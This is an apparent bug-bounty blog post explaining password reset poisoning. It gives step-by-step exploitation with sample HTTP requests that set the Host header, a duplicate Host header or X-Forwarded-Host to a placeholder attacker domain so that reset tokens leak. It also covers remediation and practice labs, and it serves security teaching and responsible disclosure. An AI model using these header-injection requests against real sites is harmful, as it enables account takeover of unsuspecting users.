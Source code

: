 ```yaml
---
# Post Settings
title: "Exploiting Password Reset Poisoning"
date: "2021-11-13"

tags: ["webapp", "bugbounty"]
categories: ["blog"]
draft: false
toc: false

# Override default meta tags
noindex: false
author: false
description: ""
---
```


To date, one of my most lucrative bug bounties came from a password reset poisoning vulnerability. This post walks through the process of finding, exploiting, and fixing this bug to help you earn a max payout in your own disclosures!


# Overview

Password reset poisoning is a header based attack, where an attacker can manipulate the URL of a password reset link. Through adding or modifying HTTP request header values during an application’s password reset process, it may be possible to overwrite the domain of the link sent to the user:
```text
Hi,
Click the link below to reset your password:
https://<attacker-domain>/reset?token=123456789
```

Once clicked, the reset token is relayed to an attacker-controlled domain — resulting in account takeover.

![](/images/posts/password-reset-poisoning/1.png)


# Exploitation

1. Navigate to the web application’s “Password Reset” page.

2. Enter the name, username, or email of the target user’s account.

3. Use a web application proxy (BurpSuite, OWASP-ZAP, etc) to intercept the request and modify the Host: header value to an attacker controlled address:
    * *Don’t have your own server? Burp Collaborator links can help!*
```
POST /login/password-reset HTTP/1.1
Host: <attacker-domain>
...
{"email":"target-user@company.com"}
```

4. The user will receive a legitimate password reset email from the site. However, the link containing the secret reset token will show our modified header value:
```
https://<attacker-domain>/reset?token=123456789
```

5. Once clicked by the user, the attacker can intercept the token and replay it’s value on the target application to successfully reset the victims password for full account takeover!

![](/images/posts/password-reset-poisoning/2.png)
*Workflow created by [PortSwigger](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning)*


# Advanced Exploitation
*Host header not working? Try these techniques*

## Double Host Header

Depending on how the server reacts to duplicate Host headers in the HTTP request, the malicious input may take precedence over the default:
```
POST /login/password-reset HTTP/1.1
Host: example.com
Host: <attacker-domain>
...
```

## Test Override Headers
Override headers such as `X-Forwarded-Host`, `X-Forwarded-Server`, `X-HTTP-Host-Override`, and `X-Host` can sometimes work to replace the Host header value— resulting in successful exploitation:
```
POST /login/password-reset HTTP/1.1
Host: example.com
X-Forwarded-Host: <attacker-domain>
...
```


# Remediation

## Why does this happen?
Password reset poisoning can occur when a website relies on header values to direct traffic or craft page links. If left unchecked, an attacker can inject their own values and modify the intended behavior of the application.

## How to fix it?

The easiest approach, is avoid using header values to define site navigation. Request headers are not protected fields and can be modified by the user to inject malicious inputs. Additionally, performing `Host` header validation and removing support for override headers such as `X-Forwarded-Host` can be good mitigating strategies.

For more prevention methods, checkout the [Preventing HTTP Host header attacks](https://portswigger.net/web-security/host-header) section of [this](https://portswigger.net/web-security/host-header) article.


# Practice Resources

Want to try this technique on your own? Checkout:
* PortSwigger Lab: [Basic Password Reset Poisoning](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning).
* PortSwigger Lab: [Password Reset Poisoning via Middleware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware).
* PortSwigger Lab: [Password Reset Poisoning via Dangling Markup](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup).

